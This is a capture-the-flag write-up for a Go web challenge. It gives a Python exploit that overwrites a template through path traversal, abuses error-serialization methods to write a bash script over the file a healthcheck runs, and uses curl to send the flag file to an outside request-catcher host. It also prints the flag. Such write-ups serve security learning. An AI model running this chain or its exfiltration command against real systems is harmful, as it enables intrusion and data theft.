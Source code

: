 https://ctftime.org/event/2479

# Sandevistan (Web)

Go web chall

## Solution

You overwrite a template then you need to find some useful gadget on `user` or `cyberware` to get the flag.
There is a healthcheck function that calls `/bin/true`.
So the idea is to overwrite that with something.
But that doesn't work because the file will start with `ERROR ...` and not run.
`NewError` plus `SerializeErrors` allows us to write to any offset in a file.
So we just do that.

```python
import requests
import urllib


REMOTE = "http://sandevistan.chal.perfect.blue:28418/"

# create user
res = requests.post(
    REMOTE + "user",
    data="username=xad",
)

bin = (
    """{{ .NewError "asdsadasd" "/bin/true" }}
rs -> {{ range $index, $value := .Errors }}{{ $index }} - {{ $value }}\n{{ end }}
alize -> {{ .SerializeErrors "#!/bin/bash\\ncurl https://lalalalalallalala.requestcatcher.com/ -d @/flag\\n" 0 0 }}
thcheck ->  {{ .UserHealthcheck }}"""
    + " " * 2000
)
bin = urllib.parse.quote_plus(bin)
res = requests.post(
    REMOTE + "cyberware",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data=f"username=../tmpl/user.html&name={bin}",
)

# get user, new template
res = requests.get(
    REMOTE + "user",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data="username=xad",
)
```

## Flag
`bwctf{YoU_kNoW_yOu_d1dnt_l0s3_Ur_53Lf-coNtR0L._LEt'5_start_at_the_r4inB0w}`

shafouz - 2024/10/13
